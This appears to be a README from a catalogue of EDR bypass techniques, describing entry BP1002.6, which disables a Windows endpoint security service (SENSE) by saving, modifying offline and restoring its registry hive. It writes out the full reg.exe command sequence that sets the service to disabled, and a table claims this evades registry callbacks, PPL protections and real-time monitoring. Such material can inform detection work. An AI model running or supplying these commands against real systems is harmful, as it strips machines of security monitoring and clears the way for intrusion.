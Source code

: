 # BP1002.6 - Disable EDR User-Mode Service via Registry Save/Restore

## Overview

This variant implements the **BP-1002.6** EDR bypass technique, the most sophisticated service disruption method that uses registry save and restore operations to avoid detection from registry notification callbacks and bypass additional PPL protections. The technique modifies service configuration offline through hive file manipulation.

## Technique Details

**Technique ID:** BP1002.6  
**Technique Name:** Disable EDR User-Mode Service via Registry Save/Restore  
**Category:** EDR Service Disruption  
**Platform:** Windows Vista and later  

### How It Works

1. **Service Registry Save**: Saves the target service's registry key to a binary hive file
2. **Offline Loading**: Loads the hive file under a temporary registry location
3. **Offline Modification**: Modifies the Start value within the loaded hive (offline)
4. **Hive Restoration**: Restores the modified hive back to the original service location
5. **Callback Avoidance**: Registry notification callbacks are bypassed because modifications occur offline
6. **PPL Bypass**: Can affect PPL-protected services with enhanced registry protections

### Registry Save/Restore Sequence

```cmd
# 1. Save service registry key to hive file
reg save "HKLM\SYSTEM\CurrentControlSet\Services\SENSE" "C:\Temp\service.hiv"

# 2. Load hive under temporary location
reg load "HKLM\TempHive" "C:\Temp\service.hiv"

# 3. Modify Start value in loaded hive (offline)
reg add "HKLM\TempHive" /v Start /t REG_DWORD /d 4 /f

# 4. Unload modified hive
reg unload "HKLM\TempHive"

# 5. Restore modified hive to original location
reg restore "HKLM\SYSTEM\CurrentControlSet\Services\SENSE" "C:\Temp\service.hiv"
```

### Advanced Bypass Mechanisms

| Protection Type | Traditional Registry | Registry Save/Restore |
|----------------|---------------------|----------------------|
| **Registry Callbacks** | ✅ Triggers | ❌ Bypassed (offline modification) |
| **PPL Registry Protection** | ❌ May block | ✅ Often bypassed |
| **Real-time Monitoring** | ✅ Detected | ⚠️ Harder to detect |
| **Access Control** | ✅ Enforced | ⚠️ May be bypassed |

